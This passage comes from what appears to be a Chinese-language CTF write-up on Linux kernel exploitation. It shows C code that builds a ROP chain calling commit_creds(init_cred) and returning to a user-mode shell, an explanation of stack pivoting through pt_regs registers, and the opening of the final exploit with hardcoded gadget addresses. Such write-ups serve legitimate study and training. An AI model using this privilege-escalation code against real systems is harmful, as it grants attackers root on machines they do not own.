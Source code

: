 ![](https://img-blog.csdnimg.cn/409a5e9522c34c45a3f5469e52dd2cc5.png)
![](https://img-blog.csdnimg.cn/ec9b7ccdc88146b9ba3fc5a07a7dc84b.png)
上图红框的部分有两个pop指令，需要我们在ROP链中再添加两个无效的值，这也算是ROP到这个函数的一个基本的姿势了。之后只需要跟上我们先前在``save_status``中保存的值就可以了。

```c
void makeROP(size_t* space){
    int index = 0;
    for(; index < page_size / 8 - 0x10; index++)
        space[index] = ret;
    space[index++] = poprdi_ret;
    space[index++] = init_cred;
    space[index++] = commit_creds;
    space[index++] = swapgs_restore_regs_and_return_to_usermode;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = *(size_t*)getShell;
    space[index++] = user_cs;
    space[index++] = user_rflags;
    space[index++] = user_sp;
    space[index] = user_ss;
}
```

#### Step 4: 构造栈迁移
我们的ROP链都是在用户空间编写的，能够映射到内核空间的某个地方，但是要执行这些ROP还需要我们将栈引导到这些内核映射区中。这就要使用到ioctl函数中的地址执行功能了，可以让函数指针指向一个能为rsp赋值的gadget，可以进行栈迁移。

需要注意的是，本题的栈迁移构造条件还是较为苛刻的，我们计划将函数指针赋值为一个可能指向我们spray ROP的地址，在其中写入能够add rsp的gadget，这样能够让内核的栈指针指向pt_regs结构，在pt_regs结构中我们只能利用r9和r8这两个寄存器构造ROP，在这两个寄存器中我们需要构造一个栈迁移，即写入诸如pop rsp这一类的gadget。经过测试发现，对于第一步的add rsp，我们构造的ROP距离rsp有0xC0，而有一个gadget``add rsp, 0xA0; pop rbx; pop r12; pop r13; ret``刚好满足我们的要求。使用这个gadget可以让我们成功进行栈迁移。

至此，所有的逻辑都已经清晰可见。其本质就是栈迁移到我们构造的地址，只是利用了direct mapping area这个区域的特性而已。

最终的exp：
```c
//
// Created by root on 22-7-7.
//
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <ctype.h>
#include <sys/mman.h>

const size_t commit_creds = 0xFFFFFFFF810C92E0;
const size_t init_cred = 0xFFFFFFFF82A6B700;
const size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FB0 + 0x1B;
const size_t ret = 0xFFFFFFFF810001FC;
const size_t poprdi_ret = 0xffffffff8108c6f0;
const size_t poprsp_ret = 0xffffffff811483d0;
const size_t add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
long page_size;
size_t* map_spray[16000];
size_t guess;
int dev;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status();
void print_binary(char*, int);
void info_log(char*);
void error_log(char*);
```